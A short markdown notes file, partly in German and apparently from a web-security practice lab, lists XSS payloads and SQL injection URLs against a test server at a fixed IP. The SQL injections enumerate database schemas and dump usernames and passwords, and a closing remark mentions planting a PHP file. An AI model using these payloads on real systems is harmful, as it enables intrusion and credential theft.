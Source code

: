 # SQL_XSS

XSS
<script>alert('blabla')</script>

92.60.14.134:8081/xss/iframe3?path=asdfasdf" onload="alert('blabla')

http://92.60.14.134:8081/xss/jsvar1?count=99%22);alert(2);//

http://92.60.14.134:8081/xss/jsvar2?count=33);%3C/script%3E%3Cscript%3Ealert(2)%3C/script%3E

SQL Injection:
105 ' or 1=1 -- -'

http://92.60.14.134:8081/sql/1?category=animal' Union select @@version, null;-- -

Alles auszeigen lassen:
http://92.60.14.134:8081/sql/1?category=animal' Union select table_schema, table_name from 

information_schema.tables;-- -

http://92.60.14.134:8081/sql/1?category=animal' Union select table_name, column_name from 

information_schema.columns ;-- -

http://92.60.14.134:8081/sql/1?category=animal' UNION SELECT user_name,user_password FROM users;-- -

Wenn Datenbank im Root verzeichnis lauft, dann kann ein PHP file eingespielt werden.
